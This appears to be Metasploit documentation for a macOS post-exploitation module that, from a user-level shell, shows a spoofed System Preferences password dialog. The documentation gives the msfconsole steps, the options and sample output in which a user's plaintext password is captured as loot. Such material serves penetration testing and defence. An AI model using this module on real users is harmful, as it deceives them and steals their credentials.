 ## Vulnerable Application

Presents a password prompt dialog to a logged-in OSX user.  Depending on the version of OSX, additional steps may be necessary to
allow permission for the prompt to be displayed.  See Scenarios for additional details.

## Verification Steps

  1. Start msfconsole
  2. Get a shell, user level is fine.
  3. Do: ```use post/osx/gather/password_prompt_spoof```
  4. Do: ```set session #```
  5. Do: ```run```
  6. The user will be prompted to enter their password, or complete additional steps.

## Options

   **BUNDLEPATH**
   Path to bundle containing icon.  Default is `/System/Library/CoreServices/CoreTypes.bundle`.

   **ICONFILE**
   Icon filename relative to bundle.  Default is `UserUnknownIcon.icns`

   **TEXTCREDS**
   Text displayed when asking for a password. Default is `Type your password to allow System Preferences to make changes`.

   **TIMEOUT**
   Timeout for user to enter credentails.  Default is `60`.  Newer versions of OSX may require additional time due to user interaction.

## Scenarios

### User level shell on OSX 10.14.4

If the user does not complete the prompt in time, or does not enable permissions to receive the prompt:

```
msf5 post(osx/gather/password_prompt_spoof) > run

[*] Running module against MacBook-Pro.nogroup
[*] Waiting for user 'h00die' to enter credentials...
[*] Timeout period expired before credentials were entered!
[*] Cleaning up files in MacBook-Pro.nogroup:/tmp/.SGFvISFemjti
[*] Post module execution completed
```

If the user DOES complete the prompt in time:

```
msf5 post(osx/gather/password_prompt_spoof) > run

[*] Running module against MacBook-Pro.nogroup
[*] Waiting for user 'h00die' to enter credentials...
[*] Password entered! What a nice compliant user...
[+] password file contents: 20190415_122536:h00die:alfalfasprouts!
[+] Password data stored as loot in: /loot/20190415122537_default_192.168.2.225_password_355107.txt
[*] Cleaning up files in MacBook-Pro.nogroup:/tmp/.jJATztdro
[*] Post module execution completed
```

#### User Experience

The following screen shots are from OSX 10.14.4 from a `ssh_login` shell as the user.  Executable may change depending on the shell type and user permissions.

The user is first prompts for additional permissions (System Events):

<img width="423" alt="Screen Shot 2019-04-15 at 12 19 38 PM" src="https://user-images.githubusercontent.com/752491/56173728-ead79c80-5fbc-11e9-8a8f-3b3265220c95.png">

Next, the user is prompted to allow Accessibility Access (Events):

<img width="463" alt="Screen Shot 2019-04-15 at 12 20 08 PM" src="https://user-images.githubusercontent.com/752491/56173737-f4f99b00-5fbc-11e9-9dcc-efbfe0cd08eb.png">

Clicking Open System Preferences shows the executable asking for the permissions.  The screenshot was taken after clicking the lock in the bottom left corner,
and checking `sshd-keygen-wrapper`:

<img width="670" alt="Screen Shot 2019-04-15 at 12 24 27 PM" src="https://user-images.githubusercontent.com/752491/56173742-fa56e580-5fbc-11e9-8d28-5669e9e9448f.png">

Finally, if done within the `TIMEOUT` (or with all required permissions):

<img width="424" alt="Screen Shot 2019-04-15 at 12 25 25 PM" src="https://user-images.githubusercontent.com/752491/56173748-fe830300-5fbc-11e9-9564-0e7137b051a8.png">

